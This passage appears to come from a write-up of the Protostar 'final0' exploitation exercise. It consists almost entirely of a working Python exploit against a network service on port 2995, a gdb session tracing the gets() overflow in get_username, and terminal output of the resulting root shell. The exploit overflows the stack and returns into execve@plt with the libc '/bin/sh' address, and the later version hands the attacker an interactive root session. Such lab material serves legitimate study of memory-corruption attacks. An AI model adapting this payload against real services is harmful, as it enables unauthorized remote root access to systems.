b7fe3000-b7ffe000 r-xp 00000000 00:10 741        /lib/ld-2.11.2.so
b7ffe000-b7fff000 r-xp 0001a000 00:10 741        /lib/ld-2.11.2.so
b7fff000-b8000000 rwxp 0001b000 00:10 741        /lib/ld-2.11.2.so
bffeb000-c0000000 rwxp 00000000 00:00 0          [stack]
root@protostar:/tmp#
```

`final0.py`

```python
import struct
import socket

HOST = '127.0.0.1'
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = 'a'*510+'\x00'+'aaaabbbbccccddddeeeef'
execve  = struct.pack("I", 0x08048c0c)           # (gdb) info functions @plt
binsh   = struct.pack("I", 1176511 + 0xb7e97000) # {grep -R -a -b -o /bin/sh /lib/libc.so.6} + {pidof final0 ; cat /proc/1609/maps | grep /lib/libc-2.11.2.so}
exploit = padding + execve + "AAAA" + binsh + "\x00"*8

s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)
s.send("uname -a\n")
print s.recv(1024)
```

```sh
root@protostar:/opt/protostar/bin# gdb -p `pidof final0`
GNU gdb (GDB) 7.0.1-debian
Copyright (C) 2009 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "i486-linux-gnu".
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Attaching to process 1609
Reading symbols from /opt/protostar/bin/final0...done.
Reading symbols from /lib/libc.so.6...Reading symbols from /usr/lib/debug/lib/libc-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/libc.so.6
Reading symbols from /lib/ld-linux.so.2...Reading symbols from /usr/lib/debug/lib/ld-2.11.2.so...done.
(no debugging symbols found)...done.
Loaded symbols for /lib/ld-linux.so.2
accept () at ../sysdeps/unix/sysv/linux/i386/socket.S:64
64	../sysdeps/unix/sysv/linux/i386/socket.S: No such file or directory.
	in ../sysdeps/unix/sysv/linux/i386/socket.S
(gdb) set disassembly-flavor intel
Current language:  auto
The current source language is "auto; currently asm".
(gdb) set follow-fork-mode child
(gdb) disassemble get_username
Dump of assembler code for function get_username:
0x0804975a <get_username+0>:	push   ebp
0x0804975b <get_username+1>:	mov    ebp,esp
0x0804975d <get_username+3>:	push   ebx
0x0804975e <get_username+4>:	sub    esp,0x224
0x08049764 <get_username+10>:	mov    DWORD PTR [esp+0x8],0x200
0x0804976c <get_username+18>:	mov    DWORD PTR [esp+0x4],0x0
0x08049774 <get_username+26>:	lea    eax,[ebp-0x210]
0x0804977a <get_username+32>:	mov    DWORD PTR [esp],eax
0x0804977d <get_username+35>:	call   0x8048aec <memset@plt>
0x08049782 <get_username+40>:	lea    eax,[ebp-0x210]
0x08049788 <get_username+46>:	mov    DWORD PTR [esp],eax
0x0804978b <get_username+49>:	call   0x8048aac <gets@plt>
0x08049790 <get_username+54>:	mov    DWORD PTR [esp+0x4],0xa
0x08049798 <get_username+62>:	lea    eax,[ebp-0x210]
0x0804979e <get_username+68>:	mov    DWORD PTR [esp],eax
0x080497a1 <get_username+71>:	call   0x8048a9c <strchr@plt>
0x080497a6 <get_username+76>:	mov    DWORD PTR [ebp-0x10],eax
0x080497a9 <get_username+79>:	cmp    DWORD PTR [ebp-0x10],0x0
0x080497ad <get_username+83>:	je     0x80497b5 <get_username+91>
0x080497af <get_username+85>:	mov    eax,DWORD PTR [ebp-0x10]
0x080497b2 <get_username+88>:	mov    BYTE PTR [eax],0x0
0x080497b5 <get_username+91>:	mov    DWORD PTR [esp+0x4],0xd
0x080497bd <get_username+99>:	lea    eax,[ebp-0x210]
0x080497c3 <get_username+105>:	mov    DWORD PTR [esp],eax
0x080497c6 <get_username+108>:	call   0x8048a9c <strchr@plt>
0x080497cb <get_username+113>:	mov    DWORD PTR [ebp-0x10],eax
0x080497ce <get_username+116>:	cmp    DWORD PTR [ebp-0x10],0x0
0x080497d2 <get_username+120>:	je     0x80497da <get_username+128>
0x080497d4 <get_username+122>:	mov    eax,DWORD PTR [ebp-0x10]
0x080497d7 <get_username+125>:	mov    BYTE PTR [eax],0x0
0x080497da <get_username+128>:	mov    DWORD PTR [ebp-0xc],0x0
0x080497e1 <get_username+135>:	jmp    0x8049807 <get_username+173>
0x080497e3 <get_username+137>:	mov    ebx,DWORD PTR [ebp-0xc]
0x080497e6 <get_username+140>:	mov    eax,DWORD PTR [ebp-0xc]
0x080497e9 <get_username+143>:	movzx  eax,BYTE PTR [ebp+eax*1-0x210]
0x080497f1 <get_username+151>:	movsx  eax,al
0x080497f4 <get_username+154>:	mov    DWORD PTR [esp],eax
0x080497f7 <get_username+157>:	call   0x8048adc <toupper@plt>
0x080497fc <get_username+162>:	mov    BYTE PTR [ebp+ebx*1-0x210],al
0x08049803 <get_username+169>:	add    DWORD PTR [ebp-0xc],0x1
0x08049807 <get_username+173>:	mov    ebx,DWORD PTR [ebp-0xc]
0x0804980a <get_username+176>:	lea    eax,[ebp-0x210]
0x08049810 <get_username+182>:	mov    DWORD PTR [esp],eax
0x08049813 <get_username+185>:	call   0x8048b8c <strlen@plt>
0x08049818 <get_username+190>:	cmp    ebx,eax
0x0804981a <get_username+192>:	jb     0x80497e3 <get_username+137>
0x0804981c <get_username+194>:	lea    eax,[ebp-0x210]
0x08049822 <get_username+200>:	mov    DWORD PTR [esp],eax
---Type <return> to continue, or q <return> to quit---
0x08049825 <get_username+203>:	call   0x8048c7c <strdup@plt>
0x0804982a <get_username+208>:	add    esp,0x224
0x08049830 <get_username+214>:	pop    ebx
0x08049831 <get_username+215>:	pop    ebp
0x08049832 <get_username+216>:	ret
End of assembler dump.
(gdb) break *0x08049832
Breakpoint 1 at 0x8049832: file final0/final0.c, line 34.
(gdb) c
Continuing.
[New process 2695]
[Switching to process 2695]

Breakpoint 1, 0x08049832 in get_username () at final0/final0.c:34
34	final0/final0.c: No such file or directory.
	in final0/final0.c
Current language:  auto
The current source language is "auto; currently c".
(gdb) x/8wx $esp
0xbffffc5c:	0x08048c0c	0x41414141	0xb7fb63bf	0x00000000
0xbffffc6c:	0x00000000	0xb7ec6300	0xb7ff1040	0x00000004
(gdb) si
0x08048c0c in execve@plt ()
(gdb) x/8wx $esp
0xbffffc60:	0x41414141	0xb7fb63bf	0x00000000	0x00000000
0xbffffc70:	0xb7ec6300	0xb7ff1040	0x00000004	0xb7fd7ff4
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:	 "/bin/sh"
(gdb) c
Continuing.
Executing new program: /bin/dash
[New process 2696]
Executing new program: /usr/bin/id

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2696]
0x07d18e90 in ?? ()
(gdb)
```

```sh
root@protostar:/tmp# python final0.py
```



```sh
root@protostar:/tmp# python final0.py
uid=0(root) gid=0(root) groups=0(root)

Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux

root@protostar:/tmp#
```

`final0.py`

```python
import struct
import socket
import telnetlib

HOST = '127.0.0.1'
PORT = 2995

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))

padding = 'a'*510+'\x00'+'aaaabbbbccccddddeeeef'
execve  = struct.pack("I", 0x08048c0c)           # (gdb) info functions @plt
binsh   = struct.pack("I", 1176511 + 0xb7e97000) # {grep -R -a -b -o /bin/sh /lib/libc.so.6} + {pidof final0 ; cat /proc/1609/maps | grep /lib/libc-2.11.2.so}
exploit = padding + execve + "AAAA" + binsh + "\x00"*8

s.send(exploit+"\n")
s.send("id\n")
print s.recv(1024)

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

```sh
root@protostar:/tmp# python final0.py
uid=0(root) gid=0(root) groups=0(root)

uname -a
Linux protostar 2.6.32-5-686 #1 SMP Mon Oct 3 04:15:24 UTC 2011 i686 GNU/Linux

ls -l
total 0
drwxr-xr-x   2 root root 1577 Oct 31  2012 bin
drwxr-xr-x   2 root root  186 Oct 31  2012 boot
drwxr-xr-x  15 root root 3060 Jun 16 08:44 dev
drwxr-xr-x  75 root root  200 Jun 16 08:44 etc
drwxr-xr-x   6 root root   60 Oct 31  2012 home
lrwxrwxrwx   1 root root   28 Nov 22  2011 initrd.img -> boot/initrd.img-2.6.32-5-686
drwxr-xr-x  12 root root 2962 Oct 31  2012 lib
drwxrwxrwt   4 root root   80 Jun 16 08:44 live
drwx------   2 root root    3 Nov 22  2011 lost+found
drwxr-xr-x   3 root root   28 Oct 31  2012 media
drwxr-xr-x   2 root root    3 Oct 31  2012 mnt
drwxr-xr-x   4 root root   60 Nov 22  2011 opt
dr-xr-xr-x 107 root root    0 Jun 16 08:44 proc
drwxr-xr-x   2 root root 2032 Oct 31  2012 sbin
drwxr-xr-x   2 root root    3 Jul 21  2010 selinux
drwxr-xr-x   2 root root    3 Nov 22  2011 srv
drwxr-xr-x  12 root root    0 Jun 16 08:44 sys
drwxrwxrwt   2 root root  180 Jun 16 16:45 tmp
drwxr-xr-x  11 root root  175 Nov 22  2011 usr
drwxr-xr-x  20 root root  180 Nov 22  2011 var
lrwxrwxrwx   1 root root   25 Nov 22  2011 vmlinuz -> boot/vmlinuz-2.6.32-5-686

exit
*** Connection closed by remote host ***
root@protostar:/tmp#
```